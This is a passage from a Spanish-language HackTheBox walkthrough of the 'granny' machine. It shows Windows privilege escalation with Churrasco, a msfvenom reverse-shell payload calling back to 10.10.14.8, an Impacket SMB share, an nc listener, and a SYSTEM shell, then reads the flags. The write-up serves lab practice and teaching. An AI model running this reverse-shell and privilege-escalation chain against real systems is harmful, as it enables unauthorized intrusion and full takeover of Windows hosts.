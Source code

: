 Descargamos una variante de `JuicyPotato.exe` denominada `Churrasco.exe`
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

Generamos un payload que nos va a permitir la conexión reversa por medio de `msfvenom`
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4566 -f exe -o rev.exe
```

Creamos un recurso compartido con `Impacket`
```bash
sudo impacket-smbserver smbFolder $(pwd)
```

En la máquina víctima ingresamos a la carpeta `C:\Windows\Temp`, creamos la carpeta `privesc` y copiamos el archivo `rev.exe` en el objetivo
```bash
cd c:\Windows\Temp
mkdir privesc
cd privesc
copy \\10.10.14.8\smbFolder\rev.exe rev.exe
```

Creamos un listener
```bash
rlwrap nc -lnvp 4566
```

Ejecutamos en la máquina víctima `churrasco.exe` para que ejecute con privilegios `rev.exe`
```bash
\\10.10.14.8\smbFolder\churrasco.exe "\\10.10.14.8\smbFolder\rev.exe"
```

Obtenemos una shell como `nt authority\system`
```bash
whoami
nt authority\system
```

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
#USER
cd c:\
dir /b/s user.txt
C:\Documents and Settings\Lakis\Desktop\user.txt
set /P user=<"C:\Documents and Settings\Lakis\Desktop\user.txt"
echo.%user:~0,10%
700c5dc163
```

```bash
dir /b/s root.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
set /P root=<"C:\Documents and Settings\Administrator\Desktop\root.txt"
echo.%root:~0,10%
aa4beed1c0
```

¡Hemos logrado completar la máquina `granny` de HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/granny/04-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
